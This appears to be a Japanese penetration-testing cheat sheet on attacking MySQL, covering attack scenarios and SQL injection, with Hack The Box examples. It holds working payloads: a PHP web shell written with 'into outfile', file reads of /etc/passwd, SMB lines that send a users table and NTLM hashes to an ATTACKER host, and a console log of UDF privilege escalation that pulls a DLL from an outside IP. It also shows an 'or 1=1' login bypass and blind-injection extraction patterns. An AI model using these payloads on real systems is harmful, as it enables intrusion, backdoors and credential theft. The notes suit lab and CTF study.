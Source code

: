 # Scenario
----

* MySQLへの攻撃シナリオは大別して３つが存在する
   1. **クライアントが攻撃者端末、サーバが被害者端末のケース**
      
      * （例１）被害者端末でMySQLのポートが公開。攻撃者は被害者端末のデータベースへアクセス可能
   1. **クライアントが被害者端末、サーバが被害者端末のケース**
      * （例２）SQL Injectionが成立
      * （例３）phpMyAdminなどのクライアントツールが被害者端末で公開。攻撃者は前記クライアントツールへアクセス可能
      * （例４）mysqlが高権限で動作。低権限で被害者端末に侵入した攻撃者がデータベースへアクセス可能
   1. **クライアントが被害者端末、サーバが攻撃者端末のケース**
      * （例５）Adminerなどの、データベースを指定可能なクライアントツールが被害者端末で公開。攻撃者は前記クライアントツールへアクセス可能
        * HTB: Admirer
      
          ![Adminer](images/Adminer.png)
   
* シナリオおよび、データベースへアクセスするクレデンシャルの権限如何で、MySQLにおいて活用可能な構文が異なる

  | Description                                   | Command                                                      |
  | --------------------------------------------- | ------------------------------------------------------------ |
  | クライアントからDBにファイルを読み込み        | `load data local infile '/etc/passwd' into table dummy`      |
  | クライアントにDBからファイルを書き出し        | `select '<?php echo system($_GET["cmd"]); ?>' into outfile '/var/www/html/shell.php'` |
  | サーバからDBにファイルを読み込み              | `select load_file('/etc/passwd')`                            |
  | サーバにDBからファイルを書き出し              | なし                                                         |
  | 関数生成（`%MYSQL_HOME%\lib\plugin\udf.dll`） | `create function sys_exec returns int soname 'udf.dll'`      |
  | smbを利用したファイル書き出し                 | `select @@version into outfile '\\\\ATTACKER\\public\\file'` |
  | smbを利用したファイル読み出し                 | `select load_file('\\\\ATTACKER\\public\\file')`             |

* 攻撃のパターンは次のようになる。
  1. データベース内のクレデンシャルの漏洩
  2. データベース内に任意のクレデンシャルを追加することによるログインバイパス
  3. 「DBからファイルを書き出し」を利用した、PHPなどのバックドアの作成
  4. 「DBにファイルを読み込み」を利用した、id_rsaやdatabase.phpなどのクレデンシャルの漏洩
  5. 「smbを利用した」を利用したNet-NTLMハッシュの漏洩
  6. 「smbを利用した」を利用したデータベース内のクレデンシャルの漏洩
     * `select * from users into outfile '\\\\ATTACKER\\public\\file`
     * `select load_file(concat('\\\\ATTACKER\\public\\', version()))`
  7. 「DBからファイルを書き出し」と「関数生成」を利用した権限昇格
     HTB: Bastarda
  
     ```console
     Image Name                     PID Session Name        Session#    Mem Usage
     ========================= ======== ================ =========== ============
     System Idle Process              0                            0         24 K
     System                           4                            0        304 K
     smss.exe                       236                            0      1.032 K
     csrss.exe                      320                            0      4.220 K
     wininit.exe                    364                            0      4.188 K
     csrss.exe                      388                            1      7.672 K
     winlogon.exe                   440                            1      4.152 K
     services.exe                   480                            0      7.500 K
     lsass.exe                      488                            0      9.976 K
     lsm.exe                        496                            0      3.608 K
     svchost.exe                    588                            0      9.388 K
     svchost.exe                    660                            0      7.332 K
     LogonUI.exe                    744                            1     17.236 K
     svchost.exe                    752                            0     10.796 K
     svchost.exe                    792                            0     29.652 K
     svchost.exe                    824                            0     13.420 K
     svchost.exe                    896                            0      4.900 K
     svchost.exe                    936                            0     14.336 K
     svchost.exe                    256                            0     12.020 K
     spoolsv.exe                    868                            0     10.740 K
     svchost.exe                    264                            0      8.224 K
     mysqld.exe                    1052                            0     38.000 K
     svchost.exe                   1152                            0      2.580 K
     VGAuthService.exe             1208                            0     10.492 K
     vmtoolsd.exe                  1272                            0     18.108 K
     ManagementAgentHost.exe       1300                            0      9.264 K
     svchost.exe                   1332                            0     10.824 K
     WmiPrvSE.exe                  1636                            0     13.556 K
     dllhost.exe                   1904                            0     11.216 K
     msdtc.exe                     1992                            0      7.700 K
     sppsvc.exe                    2540                            0     10.576 K
     w3wp.exe                      1872                            0     12.828 K
     conhost.exe                   2784                            0      2.324 K
     mysql.exe                     2852                            0      5.132 K
     cmd.exe                       2752                            0      3.124 K
     conhost.exe                   1896                            0      2.356 K
     nc.exe                        2280                            0      3.380 K
     cmd.exe                       2964                            0      3.248 K
     tasklist.exe                   860                            0      5.308 K
     
     C:\>echo select load_file('\\\\10.10.17.187\\public\\lib_mysqludf_sys_64.dll') into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\udf.dll' | mysql -u root -pmysql123!root -D drupal
     C:\>echo create function sys_exec returns int soname 'udf.dll' | mysql -u root -pmysql123!root -D drupal
     C:\>echo select sys_exec('whoami'); | mysql -u root -pmysql123!root -D drupal
     sys_exec('whoami')
     0
     
     C:\>
     ```

# SQL Injection
----

* Basics
  * SQL Injectionにおけるパラメータは基本的に「特殊記号」＋「実現したい処理」＋「コメントアウト記号」で構成可能
  * 「コメントアウト記号」を挿入し、エラーが発生しないような「特殊記号」を調査し、「実現したい処理」を挿入する
  * （例）`select * from users where username = '%s' and password = '%s' limit 1`
    1. 「コメントアウト記号」の挿入
          * `select * from users where username = 'admin' and password = ';--' limit 1`
          * SQL構文として正しくないため、エラーが発生する（エラーが観測できない場合も存在する）
    1. エラーが発生しないような「特殊記号」の挿入
          * `select * from users where username = 'admin' and password = '';--' limit 1`
          * SQL構文として正しいため、エラーは発生しない（ただし、ログインは失敗する）
    1. 「実現したい処理」の挿入
          * `select * from users where username = 'admin' and password = '' or 1 = 1;--' limit 1`
          * ログインに成功する
  * [ffuf](https://github.com/ffuf/ffuf)を利用することで、「特殊記号」の挿入の自動化が可能
    * `ffuf -u http://example.com/test?param=FUZZ;-- -w ./SecLists/Fuzzing/special-chars.txt -mc all`
* Blind SQL Injection
  * 「実現したい処理」は次のような処理になることが多い
  * `and substr((select password from users limit 1), $i, 1) = '$c'`
    * `substr`の第２引数のインデックスは1から始まることに注意
  * パスワードの推定の場合、`$i`は40文字程度まで試行する
    * sha1が20バイトのため、16進数表記で40文字
  * パスワード推定の場合、`$c`は16進数で使用する文字および$に限定可能である
    * `[a-f0-9$]`

